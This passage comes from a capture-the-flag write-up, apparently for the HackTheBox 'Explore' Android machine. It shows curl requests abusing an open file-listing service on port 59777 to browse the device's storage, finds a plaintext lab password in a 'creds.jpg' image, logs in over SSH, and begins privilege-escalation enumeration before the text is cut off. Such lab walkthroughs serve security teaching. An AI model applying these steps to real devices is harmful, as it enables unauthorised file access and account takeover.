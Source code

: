 ```json
{"name":"Alarms", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Podcasts", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Pictures", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":".userReturn", "time":"6/26/21 09:31:41 PM", "type":"file", "size":"72.00 Bytes (72 Bytes)", }, 
{"name":"user.txt", "time":"3/13/21 06:28:55 PM", "type":"file", "size":"33.00 Bytes (33 Bytes)", }, 
{"name":"Movies", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Music", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"backups", "time":"3/13/21 05:30:13 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Ringtones", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }
]
```
Now let's check Some intresting directories like backup,DCIM etc.
```bash
kali@kali:~/HackTheBox/Explore$ curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://explore.htb:59777/sdcard/backup
java.lang.NullPointerException: Attempt to get length of null array
```
Looks like backup is empty let's move on.
Let's check DCIM
```json
kali@kali:~/HackTheBox/Explore$ curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://explore.htb:59777/sdcard/DCIM
[
{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "type":"file", "size":"135.33 KB (138,573 Bytes)", }, 
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "type":"file", "size":"6.24 KB (6,392 Bytes)", }, 
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "type":"file", "size":"1.14 MB (1,200,401 Bytes)", }, 
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "type":"file", "size":"124.88 KB (127,876 Bytes)", }
]
```
we have creds.jpg that looks intresting let's see it.
![[Pasted image 20210627100759.png]]
Looks likes we have the creds.
kristi : Kr1sT!5h@Rp3xPl0r3!
Let's try creds on SSH
```bash
kali@kali:~/HackTheBox/Explore$ ssh kristi@explore.htb -p 2222
Password authentication
Password: 
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
:/ $ 
```
we are in now let's try to look for root.
# PrivESC
## ss -tupln
```bash
:/ $ ss -tupln
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
udp    UNCONN     0      0      0.0.0.0:39366              0.0.0.0:*                  
```